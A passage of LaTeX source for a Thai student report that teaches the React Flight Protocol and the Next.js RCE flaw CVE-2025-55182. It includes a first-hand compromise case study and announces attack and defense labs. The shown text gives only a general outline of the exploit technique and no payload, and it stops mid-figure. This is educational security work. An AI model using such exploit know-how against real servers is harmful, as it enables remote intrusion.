% !TEX program = xelatex
% !TEX encoding = UTF-8

\documentclass[12pt,oneside]{report}

\usepackage{fontspec}
\usepackage{polyglossia}

\setdefaultlanguage{thai}
\setotherlanguage{english}

\setmainfont[
    Path = fonts/,
    Extension = .ttf,
    BoldFont = THSarabunNew Bold,
    ItalicFont = THSarabunNew Italic,
    BoldItalicFont = THSarabunNew BoldItalic,
    Scale = 1.25
]{THSarabunNew}

\newfontfamily\thaifonttt[
    Path = fonts/,
    Extension = .ttf,
    Scale=1.1,
    BoldFont = THSarabunNew Bold,
    ItalicFont = THSarabunNew Italic,
    BoldItalicFont = THSarabunNew BoldItalic
]{THSarabunNew}
\newfontfamily\englishfont{Times New Roman}

\usepackage[margin=1.25in, top=1.25in, bottom=1.25in]{geometry}
\usepackage{setspace}
\usepackage{titlesec}
\usepackage{tocloft}
\usepackage{graphicx}
\usepackage{booktabs}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{indentfirst}
\usepackage{enumitem}
\usepackage[hidelinks]{hyperref}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows.meta, positioning, fit, backgrounds}

% ── Code-block colour palette (GitHub Light inspired) ─────────────────
\definecolor{codebg}      {RGB}{246,248,250}   % พื้นหลัง code block
\definecolor{codeborder}  {RGB}{208,215,222}   % ขอบ frame
\definecolor{codelineno}  {RGB}{139,148,158}   % เลขบรรทัด
\definecolor{codekw}      {RGB}{207, 34, 46}   % keywords  — แดง
\definecolor{codestr}     {RGB}{ 15, 98,170}   % strings   — น้ำเงิน
\definecolor{codecmt}     {RGB}{ 87,138, 52}   % comments  — เขียว
\definecolor{codefn}      {RGB}{111, 66,193}   % functions — ม่วง
\definecolor{codelit}     {RGB}{  0, 92,197}   % literals  — น้ำเงินเข้ม
% ── semantic colours ที่ใช้ในเนื้อหาอื่น ─────────────────────────────
\definecolor{attackred}   {rgb}{0.85,0.15,0.15}
\definecolor{defensegreen}{rgb}{0.10,0.60,0.20}
\definecolor{flightblue}  {rgb}{0.10,0.35,0.70}

\lstset{
    % ── font & layout ────────────────────────────────────────────────
    basicstyle       = \ttfamily\small,
    columns          = fullflexible,
    keepspaces       = true,
    breaklines       = true,
    breakatwhitespace= false,
    tabsize          = 2,
    showstringspaces = false,
    % ── background & frame ───────────────────────────────────────────
    backgroundcolor  = \color{codebg},
    frame            = single,
    framesep         = 4pt,
    rulecolor        = \color{codeborder},
    xleftmargin      = 20pt,
    xrightmargin     = 5pt,
    framexleftmargin = 15pt,
    % ── line numbers ─────────────────────────────────────────────────
    numbers          = left,
    numberstyle      = \tiny\color{codelineno},
    numbersep        = 8pt,
    % ── syntax colours ───────────────────────────────────────────────
    keywordstyle     = \color{codekw}\bfseries,
    stringstyle      = \color{codestr},
    commentstyle     = \color{codecmt}\itshape,
    % ── spacing & caption ────────────────────────────────────────────
    captionpos       = b,
    aboveskip        = 1em,
    belowskip        = 0.5em,
}

\lstdefinelanguage{json}{
    basicstyle       = \ttfamily\small,
    string           = [s]{"}{"},
    stringstyle      = \color{codestr},
    comment          = [l]{//},
    morecomment      = [s]{/*}{*/},
    commentstyle     = \color{codecmt}\itshape,
    literate=
      {:}{{\textcolor{black}{:}}}{1}
      {,}{{\textcolor{black}{,}}}{1}
      {\{}{{\textcolor{black}{\{}}}{1}
      {\}}{{\textcolor{black}{\}}}}{1}
      {[}{{\textcolor{black}{[}}}{1}
      {]}{{\textcolor{black}{]}}}{1},
}

\lstdefinelanguage{flight}{
    basicstyle       = \ttfamily\small,
    keywordstyle     = \color{flightblue}\bfseries,
    stringstyle      = \color{codestr},
    commentstyle     = \color{codecmt}\itshape,
    morecomment      = [l]{\#},
    sensitive        = true,
    morekeywords     = {I,H,L,S,T,M,E},
}

\setstretch{1.3}
\setlength{\parindent}{1.25cm}
\setlength{\parskip}{0pt}
\setlength{\emergencystretch}{3em}
\tolerance=9999
\hbadness=10000

\renewcommand{\cftchapdotsep}{\cftdotsep}
\renewcommand{\contentsname}{\hfill \Large สารบัญ \hfill}
\renewcommand{\listfigurename}{\hfill \Large บัญชีรูปภาพ \hfill}
\renewcommand{\listtablename}{\hfill \Large บัญชีตาราง \hfill}

\titleformat{\chapter}[display]
  {\normalfont\Large\bfseries\centering}{\MakeUppercase{\chaptername} \thechapter}{10pt}{\huge}
\titlespacing*{\chapter}{0pt}{-20pt}{40pt}

\begin{document}

% ============================================================
%  TITLE PAGE
% ============================================================
\begin{titlepage}
    \centering
    \setstretch{1.3}
    \vspace*{1cm}
    {\large \textbf{KING MONGKUT'S INSTITUTE OF TECHNOLOGY LADKRABANG}} \\
    {\large FACULTY OF INFORMATION TECHNOLOGY} \\
    \vspace{2.5cm}
    \begin{minipage}{0.9\textwidth}
        \centering
        {\Huge \textbf{ทำความเข้าใจ React Flight Protocol \\ และช่องโหว่ RCE ใน Next.js}} \\
        \vspace{0.6cm}
        {\large (UNDERSTANDING REACT FLIGHT PROTOCOL AND RCE IN NEXT.JS)} \\
        \vspace{0.4cm}
        {\large คู่มือการเรียนรู้แบบ Step-by-Step พร้อม Playground จริงที่ ctf.it.kmitl.ac.th}
    \end{minipage}
    \vspace{2.5cm}
    {\large รายงานโปรเจกต์เสนอต่อ} \\
    {\large \textbf{ผศ.ดร. สุเมธ ประภาวัต}} \\
    {\large เพื่อเป็นส่วนหนึ่งของวิชา 06016405 CYBERSECURITY FUNDAMENTALS} \\
    \vspace{1.5cm}
    {\large โดย} \\
    \vspace{0.3cm}
    {\Large \textbf{67070067 นายธนพัฒน์ แช่มเทศ}} \\
    \vfill
    {\large คณะเทคโนโลยีสารสนเทศ} \\
    {\large สถาบันเทคโนโลยีพระจอมเกล้าเจ้าคุณทหารลาดกระบัง} \\
    {\large มกราคม 2569} \\
    \vspace{0.5cm}
    {\small \copyright \ 2026 by 67070067 Tanapat Chamted}
\end{titlepage}

% ============================================================
%  FRONT MATTER
% ============================================================
\newpage
\pagenumbering{roman}
\tableofcontents
\newpage
\listoffigures
\newpage
\listoftables

% ============================================================
%  ABSTRACT
% ============================================================
\newpage
\section*{\centering บทคัดย่อ}
\phantomsection
\addcontentsline{toc}{section}{บทคัดย่อ}
\begin{center}
    \textbf{ทำความเข้าใจ React Flight Protocol และช่องโหว่ RCE ใน Next.js: \\
    คู่มือการเรียนรู้แบบ Step-by-Step}
\end{center}
\vspace{0.5cm}

เอกสารนี้เป็นคู่มือที่อธิบายการทำงานของ \textbf{React Flight Protocol} ซึ่งเป็นโปรโตคอลหลักที่ Next.js ใช้ในการรับส่งข้อมูลระหว่าง Server และ Client ผ่านระบบ React Server Components (RSC) โดยครอบคลุมตั้งแต่พื้นฐานทฤษฎีของ RSC, รูปแบบข้อมูล (Wire Format) ของ Flight, กลไกการ Serialize และ Deserialize จนถึงการวิเคราะห์ช่องโหว่ระดับวิกฤต CVE-2025-55182 (React2Shell) แบบ Step-by-Step

การวิเคราะห์นี้แสดงให้เห็นว่า Flight Deserializer ใน Next.js เวอร์ชัน 15.0.4 และก่อนหน้าขาดการตรวจสอบ Reference String ที่รัดกุม ทำให้ผู้โจมตีสามารถใช้เทคนิค \textbf{Prototype Pollution} ร่วมกับ \textbf{Constructor Chain} เพื่อฉีดโค้ด JavaScript เข้าสู่กระบวนการ Deserialization และบรรลุ Remote Code Execution (RCE) ได้โดยไม่ต้องผ่านการยืนยันตัวตนใดๆ

นอกจากการอธิบายเชิงทฤษฎีแล้ว เอกสารนี้ยังแนะนำ \textbf{Playground} บน \texttt{ctf.it.kmitl.ac.th} ซึ่งประกอบด้วยห้องทดลอง 2 ชุด ได้แก่ \textbf{LAB-RCE-ATTACK} สำหรับฝึกโจมตีในสภาพแวดล้อมจำลองที่ปลอดภัย และ \textbf{LAB-RCE-DEFENSE} สำหรับฝึกการรับมือและแก้ไขช่องโหว่ในฐานะ System Administrator โดย Labs ทั้งสองนี้ถูก Build จาก Dockerfile ที่จัดเตรียมไว้ใน Repository ของโปรเจกต์นี้

% ============================================================
%  CHAPTER 1: INTRODUCTION
% ============================================================
\newpage
\pagenumbering{arabic}

\chapter{บทนำ (INTRODUCTION)}

\section{ที่มาและความสำคัญ}

Next.js ได้กลายเป็น Framework ที่ได้รับความนิยมสูงสุดในการพัฒนาเว็บแอปพลิเคชันสมัยใหม่ด้วย React เนื่องจากรองรับทั้ง Server-side Rendering (SSR), Static Site Generation (SSG) และ React Server Components (RSC) อย่างครบครัน อย่างไรก็ตาม ฟีเจอร์ใหม่ที่ทรงพลังมักมาพร้อมกับความซับซ้อนที่เพิ่มขึ้น และ RSC ก็ไม่ต่างกัน

\textbf{React Flight Protocol} คือโปรโตคอลที่อยู่เบื้องหลังระบบ RSC ทั้งหมด มีหน้าที่ serialize Component Tree บน Server และ stream ข้อมูลไปยัง Client เพื่อ deserialize เป็น React elements ในรูปแบบที่ไม่ใช่ HTML ล้วน แต่เป็น format พิเศษที่รองรับ lazy loading, async components และ client component references

ในเดือนธันวาคม 2568 มีการค้นพบช่องโหว่ CVE-2025-55182 (React2Shell) ซึ่งอาศัยความบกพร่องใน Flight Deserializer ของ Next.js เวอร์ชัน 15.0.4 ทำให้ผู้โจมตีสามารถรันคำสั่งบน Server ได้จากระยะไกล (Remote Code Execution: RCE) การทำความเข้าใจว่าโปรโตคอลนี้ทำงานอย่างไรจึงเป็นเรื่องสำคัญอย่างยิ่งสำหรับนักพัฒนาและนักความปลอดภัย

\section{วัตถุประสงค์}
\begin{enumerate}
    \item เพื่อให้ผู้เรียนเข้าใจสถาปัตยกรรมของ React Server Components และกลไกการทำงานของ React Flight Protocol อย่างลึกซึ้ง
    \item เพื่อวิเคราะห์ช่องโหว่ CVE-2025-55182 แบบ Step-by-Step ตั้งแต่ทฤษฎีจนถึงการสร้าง Exploit Payload
    \item เพื่อให้ผู้เรียนได้ฝึกปฏิบัติจริงผ่าน Playground ที่ \texttt{ctf.it.kmitl.ac.th} ในสภาพแวดล้อมที่ปลอดภัย
    \item เพื่อเสนอแนวทางการป้องกัน (Remediation) ที่ถูกต้องและอธิบายเหตุผลเบื้องหลัง
\end{enumerate}

\section{ขอบเขตของเอกสาร}

เอกสารนี้เน้นที่ช่องโหว่ใน Next.js เวอร์ชัน 15.0.x ที่ใช้ RSC/App Router โดยเฉพาะ ไม่ครอบคลุมช่องโหว่ใน Pages Router หรือ React เวอร์ชันก่อน 18 การทดสอบทั้งหมดในเอกสารนี้ถูกดำเนินการในสภาพแวดล้อมจำลองที่แยกส่วนจากระบบจริง เพื่อความปลอดภัยและจริยธรรม

% ============================================================
%  CHAPTER 2: CASE STUDY
% ============================================================
\chapter{กรณีศึกษา (CASE STUDY)}

\section{สถานการณ์ (Scenario)}
ก่อนที่จะเริ่มทำโปรเจกต์นี้ ผู้จัดทำได้รับประสบการณ์ตรงจากการโดนโจมตี ซึ่งเหตุการณ์เกิดขึ้นเมื่อช่วงเดือนธันวาคมที่ผ่านมา เป็นช่วงเวลาที่เกิดช่องโหว่ CVE-2025-66478 โดยเห็นข่าวมาจากโซเชียลมีเดียมากมาย แต่ในขณะนั้นมีความประมาทว่าแอปพลิเคชันที่ Deploy ใช้เองคงไม่เป็นไร

การ Deployment ในครั้งนั้นผู้จัดทำใช้ Container เป็นหลัก แต่เนื่องจากในวันเกิดเหตุมีรุ่นน้องมาขอให้ช่วย Deploy งานอย่างเร่งด่วน จึงไม่ได้ใช้งานผ่าน Container แต่ใช้ \textbf{tmux} เพื่อเปิด screen ในการ Deploy โดยตรง ผลที่ตามมาคือผู้ให้บริการ (Provider) แจ้งเตือนว่าเซิร์ฟเวอร์มีการใช้งาน RAM และ CPU สูงถึง 100\% เป็นเวลานาน เมื่อเข้าไปตรวจสอบด้วยคำสั่ง \texttt{htop} จึงพบความผิดปกติดังรูป:

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.85\textwidth]{images/image5.png}
    
\includegraphics[width=0.85\textwidth]{images/image4.png}
    \caption{การตรวจสอบความผิดปกติของ CPU/RAM ผ่านคำสั่ง htop}
\end{figure}

\newpage

เมื่อพบปัญหาดังกล่าวได้พยายามใช้คำสั่ง kill เพื่อยุติกระบวนการ แต่โปรเซสสามารถ spawn ตัวเองขึ้นมาใหม่ได้เรื่อย ๆ จึงตัดสินใจ Down VM ทิ้ง แต่เมื่อเปิดขึ้นมาใหม่มัลแวร์ก็ยังทำงานอยู่ ผู้จัดทำจึงตัดสินใจวิเคราะห์ Logs ใน Docker และพบร่องรอยการโจมตีดังนี้:

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.85\textwidth]{images/image.png}
    \caption{Logs ที่แสดงร่องรอยการโจมตีใน Docker}
\end{figure}

จากการตรวจสอบเพิ่มเติม พบว่าผู้โจมตีใช้ประโยชน์จาก \textbf{Server Action} ในการรันคำสั่ง และพบสคริปต์ที่เป็นต้นทางของการโจมตี:

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.85\textwidth]{images/image3.png}
    \caption{การตรวจสอบ Server Action ที่ถูกโจมตี}
\end{figure}

\section{การวิเคราะห์พฤติกรรมมัลแวร์ (Malware Analysis)}

\begin{figure}[ht]
    \centering
    
\includegraphics[width=0.85\textwidth]{images/image2.png}
    \caption{Container ที่มี Debug ของ Server Script ออกมา}
\end{figure}

\begin{figure}[ht]
    \centering
